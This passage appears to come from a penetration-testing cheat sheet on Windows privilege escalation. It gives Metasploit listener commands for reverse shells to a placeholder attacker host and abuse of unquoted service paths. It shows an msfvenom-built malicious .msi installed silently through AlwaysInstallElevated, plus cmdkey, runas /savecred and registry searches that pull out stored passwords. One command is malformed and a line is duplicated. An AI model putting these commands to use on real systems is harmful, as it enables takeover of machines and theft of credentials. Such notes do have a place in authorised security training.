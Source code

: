     msfconsole

    use exploit/multi/handler

    set payload windows/x64/shell_reverse_tcp

    set lport 8888

    set lhost ATTACK_IP

    run
    ```

    ```shell
    #move executable file to target machine
    #restart vulnerable service
    sc stop unquotedsvc

    sc start unquotedsvc 
    ```

* Token Impersonation:

  * In Windows versions before Server 2019 and 10 (version 1809), service accounts are affected by an internal MITM vulnerability due to the ```SeImpersonatePrivilege``` privilege.

  * These exploits have different names such as "Hot Potato", "Rotten Potato", etc.

* Quick Wins:

  * Scheduled Tasks:

    ```shell
    schtasks
    #check for tasks to be run with user accounts with higher privilege
    ```

  * AlwaysInstallElevated:

    ```shell
    #.msi files can be configured to run with higher privileges
    #setting both registry values
    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

    #on attacker machine, generate malicious .msi file
    msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKER_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

    msfconsole

    use exploit/multi/handler

    #set LHOST,LPORT and run exploit to receive reverse shell


    #command to be run on target system
    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    ```

  * Passwords:

    ```shell
    cmdkey /list #lists saved credentials

    runas /savecred /user:admin reverse_shell.exe #try credentials

    #registry keys can also contain passwords
    reg query HKLM /f password /t REG_SZ /s

    reg query HKLM /f password /t REG_SZ /s
    ```
